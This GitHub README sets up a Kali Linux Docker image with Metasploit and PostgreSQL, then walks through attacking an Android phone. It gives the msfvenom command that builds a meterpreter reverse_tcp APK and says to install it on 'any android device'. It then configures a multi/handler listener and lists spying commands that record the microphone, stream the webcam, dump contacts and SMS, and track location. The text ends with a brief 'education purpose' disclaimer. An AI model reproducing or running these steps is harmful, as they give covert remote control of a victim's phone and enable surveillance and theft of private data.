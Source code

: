 ## kalilinux-metaspolite ;-

![](https://www.kali.org/wp-content/uploads/2015/05/kali-linux-docker-images-798x284.png)
###### The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing.

##### Original link [Docker link](https://hub.docker.com/r/vinothssv/kalilinuxmetaspolite/)

###### This container which has pre-installed PostgreSQL with metaspolite to start metaspolite please follow the below steps,
##### Lets started

> Step:1:- check postgreSQL status

    root@66c2d91b9c26:~# service postgresql status
    9.6/main (port 5432): online
    root@66c2d91b9c26:~#

###### If the container in stopped stage make it as start and running. once the postgresql is started then initialise Metasploit PostgreSQL Database

    #msfdb init

###### Once started, type below command.

    #msfconsole

###### After we logged in to the msf console check whether the database are connected to metaspolite

    msf > db_status
    [*] postgresql connected to msf3
    msf >

###### that's it. metaspolite will now working...
###### For download use below command,

    docker pull vinothssv/kalilinuxmetaspolite:version1.0
 
##### after download above container we need to start and run with some allowed ports. 
###### check the image is downloaded,

    [root@srv ~]# docker images
    REPOSITORY                        TAG                 IMAGE ID            CREATED             SIZE
    kalilinux.p                       latest              4d661b0b07ad        6 days ago          1.417 GB
    
once the image is listed, 

     docker run -it --name kaliports -p 4444:4444 -p 445:445 kalilinux.p /bin/bash
        
after we enter into the container provide the following command to create android file to explose

    root@b7152906b2a6:/# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.123 LPORT=4444 R > /var/android.apk

After that apk has created we need to make install it to any android device and then get into the msfconsole.
    msfconsole
    
        #once we get into the msfconsole we need to check whether the database is connected or not. by below given command.
        
    msf > db_status
    [*] postgresql selected, no connection
    msf >

Once everything perfect we can start hacking..
    
    msf > use multi/handler 
    msf > set PAYLOAD android/meterpreter/reverse_tcp #payload for android
    msf > set LHOST 192.168.1.4   #android ip
    msf > set LPORT 4444 #localhost allowed port.
    msf > exploit

after it get connected with android we can give the following commands to collect the information in android mobile.
    
        ---- OTHER COMMANDS ----
    - record_mic (record audio) 
    - webcam_snap (Take a Picture) 
    - webcam_stream (Stream Camera) 
    - dump_contacts (CALL LOGS!) 
    - dump_sms (SMS LOGS!)
    - geolocate (Track Device)

Here, i have attached android.apk Please do this your own risk.

### This tutorial only for education purpose.

